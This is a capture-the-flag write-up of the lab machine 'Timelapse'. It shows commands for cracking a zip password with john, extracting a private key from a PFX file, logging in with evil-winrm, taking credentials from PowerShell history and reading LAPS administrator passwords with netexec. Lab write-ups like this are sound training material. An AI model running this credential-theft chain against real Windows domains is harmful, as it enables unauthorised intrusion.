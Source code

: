 # 📦 Timelapse

I start off by scanning open ports:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

first i add timelaps.htb to my hosts file

Then i try conecting though RPCCLIENT anonymous but got denied, then SMB shares enum:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I download everything in the share and see some interesting stuff:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There is a password to unzip the backup zip so i use zip2john to get the hash:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
john  --wordlist=/usr/share/wordlists/rockyou.txt ziphash.txt 
```

then i get my hash, i'm able to unzip and see the pfx file but there is also a password:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>thuglegacy</p></figcaption></figure>

Then to extract the keys ->

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
#to see the content:
openssl pkcs12 -in legacyy_dev_auth.pfx
#to dl the key:
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
#to dl the cert:
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out key.cert
```

**`-nocerts`** → Tells OpenSSL to extract **only** the private key (skip the certificates).

**`-nodes`** → **Disables encryption** on the private key (otherwise, OpenSSL would ask for a passphrase)

**`-nokeys`** → Tells OpenSSL to extract **only** the certificate(s) (skip the private key).

Now that we have a private key i can try and use evil-winrm with --ssl:

```
evil-winrm -S -i <IP> -c key.cert -k key.pem
```

and we are able to get a foothold:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
`gci -force .` will show hidden files in a directory
{% endhint %}

Then we have to enumerate and check a powershell file that is used when you connect on multiple computers in a domain with the same account, this file will follow you as your history:

```
C:\Users\legacyy\Appdata\Roaming\Microsoft\Windows\Powershell\Psreadline
```

and in that file we find a consolehost log file ->

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption><p>svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV</p></figcaption></figure>

Winpeas catches this file. Now we can connect:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After looking at our groups we can see some stuff:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-laps/#extract-laps-password" %}

We can see there is a netexec module for laps exploit:

```
nxc smb 10.129.227.113 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -M laps
nxc ldap 10.129.227.113 -u 'Administrator' -p 'D!YT07abvZ0,1Xy%Mf3$8+R8'
```

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>
